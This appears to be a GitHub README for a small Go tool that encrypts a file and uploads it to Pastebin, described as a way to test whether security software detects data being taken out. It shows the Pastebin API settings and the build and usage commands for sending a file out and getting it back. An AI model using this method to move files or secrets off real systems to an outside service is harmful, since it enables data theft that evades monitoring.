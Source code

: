 #  file encryption and send to Pastebin

this is the simple program that testing for security software detection to taking out file 

change this section to your pastebin API key
```
// Pastebin API setting
const (
	pastebinAPIURL   = "https://pastebin.com/api/api_post.php"
	pastebinAPIKey   = "<YOUR API KEY>" // Pastebin API Key
	pastebinUserKey  = ""                     // option <login users key>
	pastebinPrivate  = "1"                    // 0=pub, 1=invisible, 2=private
	pastebinOption   = "paste"                // API option; paste
)


```


build:
  ```
  go build encode.go
  go build decode.go
  ```

usage:
  ```
[encode and send]
  ./encode <file>

[decode and get]
  ./decode https://pastebin.com/<PATH> <output file>
  ```

example:

![image](https://github.com/user-attachments/assets/92745951-62ca-4dda-afc9-ecbc0a8ad58f)

![image](https://github.com/user-attachments/assets/5833914e-24dc-430d-a1f1-74a7718a9402)

![image](https://github.com/user-attachments/assets/e6ebd9df-e52d-4fe5-8be8-69f93952a73a)




